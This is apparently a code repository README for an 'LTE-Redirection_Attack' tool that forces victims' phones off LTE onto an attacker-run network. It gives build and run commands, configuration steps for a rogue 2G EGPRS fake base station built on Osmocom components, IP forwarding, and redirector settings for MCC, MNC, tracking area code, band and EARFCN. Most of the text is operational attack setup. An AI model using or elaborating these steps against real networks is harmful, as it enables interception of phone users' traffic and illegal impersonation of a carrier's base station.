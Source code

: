 # LTE-Redirection_Attack
Force target victim to unsafe network

## Build

```bash
sudo ./build.sh
```


## Run

```bash
sudo ./run.sh
```

2G EGPRS Fake base Station :

Change if not in osmocom terminal osmo-bsc.cfg remote ip 192.168.1.23 par l'ip de votre interface internet : remote ip 192.168.X.X
Change in osmo-sgsn.cfg bind udp local, listen 192.168.1.23 by yours

In Osmocom Popped Terminal (change MCC//MNC accordingly in osmo-bsc.cfg osmo-bsc.cfg)

```bash
./runme.sh
osmo-trx-uhd
```

Forward your ip in host terminal:
```bash
./srsepc_if_masq.sh your_interface
```


LTE Node redirector

```bash
write mcc (replace)
write mnc (relace)
wirte tracking_area_code (replace)
write mcc (replace)
write mnc (replace)
write band (replace)
write dl_earfcn (replace)
write tx_gain 80
write rx_gain 30
start
``` 
